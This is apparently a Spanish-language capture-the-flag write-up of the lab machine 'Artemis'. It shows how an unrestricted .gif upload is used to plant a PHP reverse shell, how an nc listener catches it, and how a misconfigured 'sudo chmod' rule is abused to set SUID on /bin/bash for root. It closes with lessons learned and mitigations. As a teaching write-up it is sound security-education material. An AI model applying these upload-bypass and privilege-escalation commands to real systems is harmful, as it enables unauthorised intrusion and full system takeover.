










## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

---

## Resumen del Ataque

Artemis es un reto clásico de **subida de archivos sin restricción (Unrestricted File Upload)**. La aplicación web "Artemis Gallery" permite subir archivos `.gif` a una galería pública, validando la extensión únicamente en el lado del cliente (atributo `accept=".gif"` del formulario HTML) sin verificación real del contenido ni del tipo MIME en el servidor. Esto permite subir un archivo con extensión `.gif` que en realidad contiene código PHP ejecutable (una reverse shell de Pentestmonkey), el cual se ejecuta al ser invocado directamente desde su URL en `/uploads/`.

Tras obtener una shell como `www-data`, la escalada de privilegios es directa: una regla `sudo` mal configurada permite ejecutar `/bin/chmod` como cualquier usuario sin contraseña. Al aplicar permisos `6777` (SUID + SGID + lectura/escritura/ejecución para todos) sobre `/bin/bash`, cualquier invocación de `bash -p` hereda los privilegios de su propietario (`root`), otorgando una shell root inmediata.

**Vector de compromiso:** Subida de archivo sin validación de contenido real → webshell con extensión disfrazada → RCE → `sudo` mal configurado sobre `/bin/chmod` → SUID en `/bin/bash` → root.

---

## Técnicas Usadas

|Fase|Técnica|Herramienta|
|---|---|---|
|Reconocimiento|Escaneo de puertos completo (TCP SYN)|`nmap -p- -sS`|
|Reconocimiento|Detección de versiones y servicios|`nmap -sC -sV`|
|Enumeración web|Revisión de código fuente y lógica del formulario de subida|Navegador|
|Prueba de validación|Subida de archivo legítimo para confirmar el flujo de la aplicación|Formulario web|
|Explotación|Subida de archivo malicioso con extensión disfrazada (webshell como `.gif`)|Reverse shell de Pentestmonkey (PHP)|
|Acceso inicial|Obtención de conexión inversa al invocar el archivo subido|`nc` (listener)|
|Estabilización de shell|Mejora de TTY interactiva (PTY completo)|`script` + `stty raw -echo`|
|Escalada de privilegios|Identificación de regla `sudo NOPASSWD` mal configurada|`sudo -l`|
|Escalada de privilegios|Abuso de `chmod` con privilegios de root para asignar SUID a un intérprete de comandos|`sudo /bin/chmod 6777 /bin/bash`|
|Escalada de privilegios|Obtención de shell root mediante binario con bit SUID|`bash -p`|

---

## Desarrollo

### 1. Reconocimiento de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### 2. Detección de servicios

```
nmap -p 80,2222 -sC -sV -oN allports 172.17.0.2
```



### 3. Análisis de la aplicación web



La aplicación "Artemis Gallery" permite subir imágenes `.gif` mediante un formulario que envía a `upload.php`. Revisando el código fuente HTML se confirma que la única restricción de tipo de archivo es el atributo `accept=".gif"` del `<input type="file">`, una validación **exclusivamente del lado del cliente** y por tanto trivialmente evadible.

### 4. Prueba de subida legítima

Se sube un archivo `test.gif` para confirmar el funcionamiento normal del flujo:







```
http://172.17.0.2/uploads/artemis_6a4d2375245f39.29693292.gif
```

La subida funciona y el archivo es accesible directamente desde `/uploads/`.

### 5. Preparación de la webshell disfrazada

Se prepara una reverse shell de Pentestmonkey (PHP), renombrada con extensión `.gif` para intentar evadir cualquier filtro superficial basado en extensión:

```bash
shell.gif
```

Se prepara el listener en la máquina atacante antes de subir el archivo:

```bash
nc -lvnp 1234
```

### 6. Subida y ejecución de la webshell

Se sube `shell.gif` a través del formulario (`Examinar → shell.gif → Subir a la galería`) y se invoca directamente su URL para forzar la ejecución del código PHP embebido:

```
http://172.17.0.2/uploads/artemis_6a4d242e5031f3.23224836.gif
```



El servidor interpreta el archivo como PHP ejecutable pese a su extensión `.gif` — confirmando que Apache/PHP en esta configuración procesa el contenido según su handler configurado, no según la extensión declarada por el usuario en el formulario.

### 7. Estabilización del TTY

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

### 8. Identificación del vector de escalada


```bash
sudo -l
```



El usuario `www-data` puede ejecutar `/bin/chmod` como cualquier usuario (incluido root) sin contraseña — un binario que, aunque no diseñado para elevar privilegios, permite modificar permisos de **cualquier archivo del sistema**, incluidos binarios críticos.

### 9. Explotación del sudo mal configurado


```bash
sudo /bin/chmod 6777 /bin/bash
ls -l /bin/bash
```



Los bits `6777` aplican SUID (`4000`) y SGID (`2000`) además de permisos totales de lectura/escritura/ejecución. Con el bit SUID activo, `/bin/bash` se ejecuta con los privilegios de su propietario (`root`) sin importar quién lo invoque.

### 10. Escalada final a root

```bash
bash -p
whoami
```



```bash
cd /root
cat flag.txt
```



**Flag:** `ARTEMIS{g1f_upl04d_hunt3r_2026}`

---

## Lecciones Aprendidas

- **La validación de tipo de archivo del lado del cliente (`accept=".gif"` en HTML) no ofrece ninguna protección real.** Es trivialmente evadible interceptando la petición o simplemente renombrando el archivo antes de subirlo; toda validación de seguridad debe reforzarse en el servidor.
- **Comprobar la extensión de un archivo no es lo mismo que comprobar su contenido real.** El servidor debe verificar el tipo MIME real (magic bytes) y, más importante aún, no ejecutar como código ningún archivo subido por el usuario dentro de directorios públicos, sin importar su extensión declarada.
- **Cualquier binario capaz de modificar permisos, propietarios o el sistema de archivos en general (`chmod`, `chown`, `cp`, `mv`, etc.) es peligroso en una regla `sudo NOPASSWD`**, incluso si a primera vista no parece un binario "peligroso" como `bash` o `vim`. La clave no es qué hace el binario por sí solo, sino qué le permite hacer a otros archivos del sistema.
- **El bit SUID sobre un intérprete de comandos sigue siendo uno de los vectores de escalada más rápidos y directos**, una vez que se puede modificar permisos de archivos arbitrarios con privilegios de root.
- **Un archivo `.gif` que "funciona" al mostrarse como imagen no garantiza que el servidor lo trate únicamente como imagen** — si el servidor web asocia la ejecución de PHP por configuración de handler en vez de por extensión estricta, cualquier archivo con código embebido puede ejecutarse.

---

## Medidas de Mitigación

|Hallazgo|Riesgo|Recomendación|
|---|---|---|
|Subida de archivos sin validación real de tipo/contenido en el servidor|Crítico|Validar el tipo MIME real del archivo (magic bytes) en el servidor, nunca confiar en la extensión ni en el atributo `accept` del formulario HTML.|
|Ejecución de código PHP en archivos subidos dentro de directorios públicos (`/uploads/`)|Crítico|Configurar el servidor web para que el directorio de subidas nunca ejecute scripts (ej. en Apache: `php_admin_flag engine off` o bloquear con `.htaccess` la ejecución de `.php` en esa ruta); idealmente, servir los archivos subidos desde un dominio/almacenamiento separado sin capacidad de ejecución.|
|Ausencia de restricción de extensiones reales en el backend (`upload.php`)|Alto|Implementar una lista blanca estricta de extensiones permitidas verificadas contra el contenido real del archivo, y renombrar los archivos subidos con extensiones controladas por el servidor.|
|Regla `sudo NOPASSWD` sobre `/bin/chmod` para todos los comandos (`ALL`)|Crítico|Nunca otorgar permisos `sudo` sin contraseña sobre binarios capaces de modificar permisos de archivos del sistema; si es imprescindible, restringir el alcance exacto de archivos/directorios permitidos mediante wrappers específicos, nunca el binario genérico.|
|Ausencia de límites de tamaño/tipo verificados en el servidor (más allá del anuncio de "5MB máximo" en la interfaz)|Medio|Aplicar límites de tamaño y tipo de archivo de forma efectiva en el servidor (`php.ini`: `upload_max_filesize`, validación de contenido), no solo como texto informativo en la interfaz.|